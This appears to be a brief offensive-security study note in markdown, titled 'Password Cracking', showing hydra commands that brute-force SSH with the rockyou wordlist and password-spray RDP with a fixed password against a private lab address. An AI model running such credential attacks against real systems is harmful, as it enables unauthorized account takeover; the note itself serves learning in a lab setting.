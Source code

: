 ```yaml
---
layout: post
title: Password Cracking
titledate: 09/10/23
tags: ["infosec","offsec", "password", "hydra"]
---
```


#### SSH RDP FTP Brute Force

let's user hydra to try to brute force ssh on port 2222

    $ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.50

if we are wanting to target rdp

    $ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.50

